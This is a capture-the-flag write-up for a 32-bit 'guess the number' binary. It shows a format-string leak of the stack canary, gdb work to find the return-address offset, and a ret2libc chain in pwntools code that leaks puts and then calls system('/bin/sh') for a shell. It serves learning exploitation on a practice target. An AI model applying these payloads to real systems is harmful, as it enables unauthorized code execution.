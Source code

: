 
## Guess the number

From the source code, we know the number is calculated with ``rand`` address.

```
(rand % 4096) + 1
```

The address might change when the program starts everytime, so we could search the number in range *[-4096, 4096]*.

## Disassemble the program

Run ``radare2`` to disassemble the program

```
 r2 ./vuln
```

Execute ``pd $s > vuln.asm`` in r2, exam output *vuln.asm*, the canary is loaded from ``gs:[0x14]``, which stored a random generated number, into ``[ebp-0xc]``. Before the function returns, the canary is checked and call ``__stack_chk_fail_local`` on failed. The canary changes everytime the program start running, but the location on stack is fixed, so we need to find the canary address.

```
0x08048783      65a114000000   mov eax, dword gs:[0x14]
0x08048789      8945f4         mov dword [ebp - 0xc], eax
0x0804878c      31c0           xor eax, eax
...
0x080487e9      8b45f4         mov eax, dword [ebp - 0xc]
0x080487ec      653305140000.  xor eax, dword gs:[0x14]
0x080487f3      7405           je 0x80487fa
0x080487f5      e816010000     call sym.__stack_chk_fail_local
0x080487fa      8b5dfc         mov ebx, dword [ebp - 4]
0x080487fd      c9             leave
0x080487fe      c3             ret
```

## Find canary

The winner name buffer allow us to input something, use the ``printf`` format string to print positional parameters, '%N$lx' for the Nth parameter.

```
num = None
for i in range(1, 200):
    if num is None:
        num = must_guess(pr)
    else:
        pr.sendlineafter("What number would you like to guess?\n", str(num))
    pr.readline()
    pr.sendlineafter("New winner!\nName? ", 'XXX %{}$lx'.format(i))
    print(i, pr.readline())
```

In the output, several lines suspicious, like 20th, 119th and 166th.

```
...
18 b'Congrats: XXX 0\n'
19 b'Congrats: XXX 1\n'
20 b'Congrats: XXX 1cdadcae\n'   canary?
21 b'Congrats: XXX 79804f\n'
22 b'Congrats: XXX fffff7e0\n'
...
116 b'Congrats: XXX f7f69d20\n'
117 b'Congrats: XXX 1c\n'
118 b'Congrats: XXX ff8e5238\n'
119 b'Congrats: XXX 1fc74300\n'  canary?
120 b'Congrats: XXX f7f69d20\n'
121 b'Congrats: XXX a\n'
...
164 b'Congrats: XXX 0\n'
165 b'Congrats: XXX 73fe43f7\n'
166 b'Congrats: XXX db4605e7\n'   canary?
167 b'Congrats: XXX 0\n'
...
```

Run the program from gdb, set a breakpoint at *0x080487e9*, where to load the prestored canary value into *eax*.

```
pwndbg> b *0x080487e9
Breakpoint 1 at 0x80487e9
```
By checking the suspicious lines, the 119th looks like what we are looking for.

```
What number would you like to guess?
-2815
Congrats! You win! Your prize is this print statement!

New winner!
Name? %119$lx
Congrats: 9ef1d800
```

Execute one step forward and check the value in *eax*. which means the value at 119th indeed is the canary value. 

```
pwndbg> si
0x080487ec in win ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────────────────────────────────────────────────────────────[ REGISTERS ]─────────────────────────────────────────────────────────────────────────────────────────
*EAX  0x9ef1d800
 EBX  0x8049fbc (_GLOBAL_OFFSET_TABLE_) —▸ 0x8049ec4 (_DYNAMIC) ◂— 0x1
 ECX  0xffffffff
 EDX  0xffffffff
 EDI  0xf7edc000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1ead6c
 ESI  0xf7edc000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1ead6c
 EBP  0xff812258 —▸ 0xff812278 ◂— 0x0
 ESP  0xff812040 ◂— 0x1
*EIP  0x80487ec (win+126) ◂— xor    eax, dword ptr gs:[0x14]
──────────────────────────────────────────────────────────────────────────────────────────[ DISASM ]───────────────────────────────────────────────────────────────────────────────────────────
   0x80487e9 <win+123>    mov    eax, dword ptr [ebp - 0xc]
 ► 0x80487ec <win+126>    xor    eax, dword ptr gs:[0x14]
   0x80487f3 <win+133>    je     win+140 <win+140>
    ↓
   0x80487fa <win+140>    mov    ebx, dword ptr [ebp - 4]
   0x80487fd <win+143>    leave  
   0x80487fe <win+144>    ret    
 
   0x80487ff <main>       lea    ecx, [esp + 4]
   0x8048803 <main+4>     and    esp, 0xfffffff0
   0x8048806 <main+7>     push   dword ptr [ecx - 4]
   0x8048809 <main+10>    push   ebp
   0x804880a <main+11>    mov    ebp, esp
```

## Find EIP address

We need to find EIP address to figure out how many padding do we need.
Run the program in ``gdb``, set a breakpoint at *leave* instruction in ``win``, feed it 100 'A'.

```
pwndbg> b *0x080487fd
Breakpoint 1 at 0x80487fd
pwndbg> r
Starting program: /home/zlynch-picoctf/vuln 
warning: Error disabling address space randomization: Operation not permitted
Welcome to my guessing game!
Version: 2

What number would you like to guess?
-2815
Congrats! You win! Your prize is this print statement!

New winner!
Name? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Now it breaks, check the first 32 words at the top of the stack. The *0x41414141* block starts at *0xffce1d7c*, so we know this is where the buffer starts.

```
pwndbg> x/32wx $esp
0xffce1d70:     0x00000001      0xfffff501      0xfffff501      0x41414141
0xffce1d80:     0x41414141      0x41414141      0x41414141      0x41414141
0xffce1d90:     0x41414141      0x41414141      0x41414141      0x41414141
0xffce1da0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffce1db0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffce1dc0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffce1dd0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffce1de0:     0x00000000      0x00000000      0x00000000      0x00000000
```

Use ``info frame`` to find out where EIP is. *eip at 0xffce1f8c* in *saved registers* section tell us exactly what we are looking for.

```
pwndbg> info frame
Stack level 0, frame at 0xffce1f90:
 eip = 0x80487fd in win; saved eip = 0x804888c
 called by frame at 0xffce1fc0
 Arglist at 0xffce1f88, args: 
 Locals at 0xffce1f88, Previous frame's sp is 0xffce1f90
 Saved registers:
  ebx at 0xffce1f84, ebp at 0xffce1f88, eip at 0xffce1f8c
```

By calculating the distance between EIP address and buffer address we know the padding is *528*. The buffer size is 512 bytes and canary is 4 bytes, so we need another 12 bytes of padding before EIP.

```
pwndbg> p/d 0xffce1f8c-0xffce1d7c 
$1 = 528
```

We need to add 12 bytes padding to get to EIP after canary.


## Find version of libc 

Now we need to call ``puts`` to print the address of itself, the payload would be 

```padding(512bytes) + canary + padding(12bytes) + puts plt address + win address + puts got address```

Find address of ``puts`` on server by running the script. 

```
elf = pwn.ELF(target, False)
payload = b'A' * 512 + pwn.p32(canary) + b'B'*12
payload += pwn.p32(elf.plt['puts'])
payload += pwn.p32(elf.sym['win'])
payload += pwn.p32(elf.got['puts'])
pr.sendlineafter("What number would you like to guess?\n", str(num))
pr.sendlineafter("New winner!\nName? ", payload)
pr.readline()
pr.readline()
puts_addr = pwn.u32(pr.readline()[:4])
```

With the address we found matches using website [libc database search](https://libc.blukat.me/?q=puts%3A0xf7dab3d0&l=libc6-i386_2.27-3ubuntu1.2_amd64)

```
Matches
libc6-i386_2.27-3ubuntu1.2_amd64
```

Find ``system`` offset and `str_bin_sh` offset from [libc6-i386_2.27-3ubuntu1.2_amd64](https://libc.blukat.me/d/libc6-i386_2.27-3ubuntu1.2_amd64.symbols). Then the addresses could be calculated.

```
libc_base = puts_addr - 0x673d0
sys_addr = libc_base + 0x3cd80
binsh_addr = libc_base + 0x17bb8f
```

## Get shell

To get shell we need to call ``system`` with argument ``/bin/sh``. Again as ``win`` has been called when we try to find address of ``puts``, now we just send the payload when winner name is asked. 
The payload follow format 

```padding(512bytes) + canary + padding(12bytes) + system address + win address + string bin sh address```

```
payload = b'A' * 512 + pwn.p32(canary) + b'B'*12
payload += pwn.p32(sys_addr)
payload += pwn.p32(elf.sym['win'])
payload += pwn.p32(binsh_addr)
```
Finally, combine them all to get shell and get the flag. 
